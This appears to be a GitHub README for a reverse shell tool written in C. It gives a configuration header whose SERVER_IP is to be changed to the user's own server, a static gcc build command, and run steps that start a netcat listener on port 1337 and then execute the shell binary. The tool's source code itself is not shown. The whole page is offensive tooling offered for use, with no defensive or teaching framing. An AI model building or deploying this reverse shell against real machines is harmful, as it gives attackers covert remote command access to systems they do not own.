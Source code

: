 <h1 align="center">
	<img src="https://img.icons8.com/ios-filled/344/console.png" width="150px"><br>
    Reverse Shell written in C.
</h1>
### Configuration
```c
#pragma once

#define SERVER_IP "127.0.0.1" // Change to your server IP
#define SERVER_PORT 1337 // Changing this is optional
```
### Compiling
```
gcc -static -o reverse_shell main.c
```
### Running
```
[user@linux]$ nc -lvvp 127.0.0.1 1337
-----------------------
[user@linux]$ ./reverse_shell
```
### Contributions 🎉
###### If you're interested in contributing simply open a pull request!
